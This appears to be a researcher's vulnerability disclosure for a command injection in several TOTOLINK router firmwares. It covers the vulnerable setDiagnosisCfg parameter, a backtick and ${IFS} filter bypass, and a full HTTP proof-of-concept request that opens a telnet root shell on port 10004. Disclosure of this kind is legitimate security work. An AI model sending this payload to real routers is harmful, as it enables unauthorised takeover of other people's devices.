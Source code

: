 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A830R、3100R、A950RG、A800R、A3000RU、A810R

Version:A830R_Firmware(V5.9c.4729_B20191112)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/184/ids/36.html)

A3100R_Firmware(V4.1.2cu.5050_B20200504)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html)

A950RG_Firmware(V4.1.2cu.5161_B20200903)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/167/ids/36.html)

A800R_Firmware(V4.1.2cu.5137_B20200730)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

A3000RU_Firmware(V5.9c.5185_B20201128)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/168/ids/36.html)

A810R_Firmware)(V4.1.2cu.5182_B20201026)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `system.so` binary:

In `setDiagnosisCfg` function,`ipDoamin` is directly passed by the attacker, so we can control the `ipDoamin` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 

BUT!!!!!

**When receiving user input, there are very strict checks. But we can use `${}` and ``  to bypass it!**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> Complete vulnerability verification on A830R product



## PoC

We set `ipDoamin` as **`telnetd${IFS}-l${IFS}/bin/sh${IFS}-p${IFS}10004`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/ntp.asp?timestamp=1645512861684
Cookie: SESSION_ID=2:1645512852:2

{"topicurl":"setting/setDiagnosisCfg","ipDoamin":"`telnetd${IFS}-l${IFS}/bin/sh${IFS}-p${IFS}10004`"}
```

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## Result
Get a shell!

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

